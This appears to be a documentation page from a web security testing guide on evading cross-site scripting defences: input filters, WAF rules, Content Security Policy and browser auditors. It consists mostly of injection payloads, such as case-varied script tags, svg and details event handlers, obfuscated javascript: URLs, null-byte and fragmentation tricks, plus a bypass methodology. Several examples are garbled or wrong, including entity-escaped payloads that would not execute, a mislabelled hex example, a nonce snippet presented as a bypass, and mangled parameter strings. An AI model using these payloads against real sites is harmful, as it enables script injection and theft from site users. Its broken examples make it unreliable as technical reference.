 ```yaml
---
title: XSS Evasion Techniques
description: Advanced methods for bypassing XSS filters and security controls in web applications
---
```



This guide covers advanced techniques for bypassing Cross-Site Scripting (XSS) filters and security controls. Understanding these evasion methods is essential for thorough security testing and for demonstrating the limitations of inadequate protection mechanisms.

## Understanding XSS Filters

Modern web applications implement various types of XSS protection:

- **Input validation**: Checking user input against allowed patterns
- **Output encoding**: Converting special characters to their HTML entity equivalents
- **Content Security Policy (CSP)**: Restricting which scripts can execute
- **WAF rules**: Web Application Firewalls that block suspicious patterns
- **Browser XSS filters**: Built-in protections in modern browsers

## Basic Evasion Techniques

### Case Variation

Many basic filters only check for lowercase versions of dangerous tags:

```html
\<ScRiPt\>alert(1)\</ScRiPt\>
```

### Tag Obfuscation

Bypass filters that look for specific tags:

```html
\<scr\<script\>ipt\>alert(1)\</scr\</script\>ipt\>
```

### Attribute Splitting

Evade filters that scan for complete attribute patterns:

```html
\<img o
n
error=alert(1) src=x\>
```

## Encoding-Based Evasion

### HTML Entity Encoding

Use HTML entities to bypass filters:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

### URL Encoding

Encode characters using URL encoding:

```html
%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

### Unicode Encoding

Leverage Unicode encoding to hide malicious code:

```html
\<script\>\u0061lert(1)\</script\>
```

### Hex Encoding

Use hexadecimal encoding for evasion:

```html
\<script\>&#x61;lert(1)\</script\>
```

## Advanced Filter Bypass Techniques

### Non-Standard Tags and Events

Use lesser-known HTML tags and events:

```html
\<svg onload="alert(1)"\>
\<details ontoggle="alert(1)" open\>
```

### JavaScript Protocol Obfuscation

Obfuscate the JavaScript protocol in URLs:

```html
\<a href="javas&#99;ript:alert(1)"\>Click me\</a\>
```

### DOM Clobbering

Use HTML elements to override JavaScript objects:

```html
&lt;form id="test"&gt;&lt;input name="innerHTML" value="&lt;script&gt;alert(1)&lt;/script&gt;"&gt;&lt;/form&gt;
```

### Null Bytes

Insert null bytes to confuse parsers:

```html
&lt;scri%00pt&gt;alert(1)&lt;/script&gt;
```

## WAF Bypass Techniques

### Regex Evasion

Bypass regex-based filters:

```html
&lt;script&gt;/* */alert(1)/* */&lt;/script&gt;
```

### Parameter Pollution

Use duplicate parameters to confuse WAF logic:

```
?param&quot;safe&quot;&amp;param&quot;&lt;script&gt;alert(1)&lt;/script&gt;&quot;
```

### Fragmentation

Split attacks across multiple parameters:

```
?param1=&quot;&lt;img&quot;&amp;param2=&quot;src=\&quot;x\&quot;&quot;&amp;param3=&quot;onerror=\&quot;alert(1)\&quot;&quot;
```

## CSP Bypass Techniques

### JSONP Endpoints

Leverage JSONP endpoints to execute arbitrary code:

```html
&lt;script src=&quot;https://trusted-domain.com/jsonp?callback=alert(1)&quot;&gt;&lt;/script&gt;
```

### DOM-Based Bypasses

Use DOM manipulation to bypass CSP:

```javascript
location.href = 'javascript:alert(1)';
```

### Unsafe Inline Bypasses

Exploit unsafe-inline directives:

```html
&lt;script nonce=&quot;CSP-NONCE&quot;&gt;alert(1)&lt;/script&gt;
```

## Browser-Specific Bypasses

### Chrome XSS Auditor Bypasses

Techniques specific to Chrome's XSS protection:

```html
&lt;a href=&quot;'onclick=alert(1)//&quot;&gt;Click me&lt;/a&gt;
```

### Safari Bypasses

Techniques that work specifically in Safari:

```html
&lt;div id=&quot;x&quot;&gt;x&lt;/div&gt;&lt;script&gt;document.getElementById('x').innerHTML='&lt;img src=x onerror=alert(1)&gt;'&lt;/script&gt;
```

## Practical Evasion Methodology

### Filter Analysis

1. **Identify filtering mechanism**: Determine what type of filter is in place
2. **Test basic inputs**: Understand what triggers the filter
3. **Analyze responses**: Look for clues in error messages or behavior

### Bypass Development

1. **Start with known bypasses**: Try established techniques first
2. **Combine methods**: Use multiple evasion techniques together
3. **Iterate and refine**: Adjust your approach based on results

### Testing Framework

Develop a systematic approach:

1. **Create a baseline**: Establish what's being blocked
2. **Test variations**: Try different encoding and obfuscation methods
3. **Document successes**: Record which techniques work

## Next Steps

After mastering evasion techniques, explore:

- [Exploitation Strategies](/docs/xss/attack-techniques/exploitation-strategies) - Learn how to leverage XSS vulnerabilities
- [Identification Techniques](/docs/xss/attack-techniques/identification-techniques) - Review methods for finding XSS vulnerabilities
